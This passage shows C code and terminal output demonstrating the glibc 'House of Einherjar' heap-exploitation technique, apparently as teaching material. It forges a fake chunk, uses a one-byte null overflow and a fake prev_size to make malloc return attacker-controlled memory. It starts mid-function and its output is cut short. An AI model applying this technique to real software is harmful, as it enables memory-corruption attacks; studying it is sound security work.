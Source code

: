 ```c
    fake_chunk[0] = 0x80;
    fake_chunk[1] = 0x80;
    fake_chunk[2] = (size_t) fake_chunk;
    fake_chunk[3] = (size_t) fake_chunk;
    fake_chunk[4] = (size_t) fake_chunk;
    fake_chunk[5] = (size_t) fake_chunk;
    fprintf(stderr, "Our fake chunk at %p looks like:\n", fake_chunk);
    fprintf(stderr, "prev_size: %#lx\n", fake_chunk[0]);
    fprintf(stderr, "size: %#lx\n", fake_chunk[1]);
    fprintf(stderr, "fwd: %#lx\n", fake_chunk[2]);
    fprintf(stderr, "bck: %#lx\n", fake_chunk[3]);
    fprintf(stderr, "fwd_nextsize: %#lx\n", fake_chunk[4]);
    fprintf(stderr, "bck_nextsize: %#lx\n\n", fake_chunk[5]);

    b = (uint8_t*) malloc(0xf8);
    int real_b_size = malloc_usable_size(b);
    uint64_t* b_size_ptr = (uint64_t*)(b - 0x8);
    fprintf(stderr, "We allocate 0xf8 bytes for 'b': %p\n", b);
    fprintf(stderr, "b.size: %#lx\n", *b_size_ptr);
    fprintf(stderr, "We overflow 'a' with a single null byte into the metadata of 'b'\n");
    a[real_a_size] = 0; 
    fprintf(stderr, "b.size: %#lx\n\n", *b_size_ptr);

    size_t fake_size = (size_t)((b-sizeof(size_t)*2) - (uint8_t*)fake_chunk);
    *(size_t*)&a[real_a_size-sizeof(size_t)] = fake_size;
    fprintf(stderr, "We write a fake prev_size to the last %lu bytes of a so that it will consolidate with our fake chunk\n", sizeof(size_t));
    fprintf(stderr, "Our fake prev_size will be %p - %p = %#lx\n\n", b-sizeof(size_t)*2, fake_chunk, fake_size);

    fake_chunk[1] = fake_size;
    fprintf(stderr, "Modify fake chunk's size to reflect b's new prev_size\n");

    fprintf(stderr, "Now we free b and this will consolidate with our fake chunk\n");
    free(b);
    fprintf(stderr, "Our fake chunk size is now %#lx (b.size + fake_prev_size)\n", fake_chunk[1]);

    d = malloc(0x10);
    memset(d, 'A', 0x10);
    fprintf(stderr, "\nNow we can call malloc() and it will begin in our fake chunk: %p\n", d);
}
```
```
$ gcc -g house_of_einherjar.c 
$ ./a.out 
We allocate 0x10 bytes for 'a': 0xb31010

Our fake chunk at 0x7ffdb337b7f0 looks like:
prev_size: 0x80
size: 0x80
fwd: 0x7ffdb337b7f0
bck: 0x7ffdb337b7f0
fwd_nextsize: 0x7ffdb337b7f0
bck_nextsize: 0x7ffdb337b7f0

We allocate 0xf8 bytes for 'b': 0xb31030
b.size: 0x101
We overflow 'a' with a single null byte into the metadata of 'b'
b.size: 0x100

We write a fake prev_size to the last 8 bytes of a so that it will consolidate with our fake chunk
Our fake prev_size will be 0xb31020 - 0x7ffdb337b7f0 = 0xffff80024d7b5830

```